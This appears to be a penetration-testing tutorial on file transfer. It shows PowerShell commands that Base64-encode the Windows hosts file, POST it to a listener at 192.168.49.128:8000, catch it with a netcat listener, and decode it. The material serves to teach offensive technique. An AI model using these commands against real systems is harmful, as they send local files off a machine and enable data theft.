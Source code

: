 ### PowerShell Base64 Web Upload

This method demonstrates how PowerShell can be used to encode a file in Base64 and upload it to a server using `Invoke-WebRequest`. The payload is transmitted as a POST request to a specified URI, and the data is then caught using Netcat. Afterward, the data is decoded back to its original form.

### Step 1: Encoding the File in Base64

First, we convert the contents of a file (`hosts` file in this case) into Base64:

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\\Windows\\System32\\drivers\\etc\\hosts' -Encoding Byte))

```

This command reads the `hosts` file as raw bytes and then converts it into a Base64 string.

### Step 2: Uploading the Encoded File via HTTP

Next, we use `Invoke-WebRequest` to upload the Base64 encoded file to a remote server. The server is assumed to be listening on port 8000:

```powershell
Invoke-WebRequest -Uri <http://192.168.49.128:8000/> -Method POST -Body $b64

```

Here, we send the encoded file as a POST request with the Base64 string as the body.

### Step 3: Catching the Data with Netcat

On the receiving server (listening on port 8000), we use Netcat to catch the incoming Base64 data:

```bash
$ nc -lvnp 8000

```

Netcat listens for connections and displays the incoming data. The Base64-encoded content appears in the console.

### Step 4: Decoding the File

After receiving the Base64-encoded data, we decode it back to its original file using the `base64` tool:

```bash
bash
Copy code
echo <base64> | base64 -d -w 0 > hosts

```

This command takes the Base64 data, decodes it, and writes it back to a file (`hosts`).

---
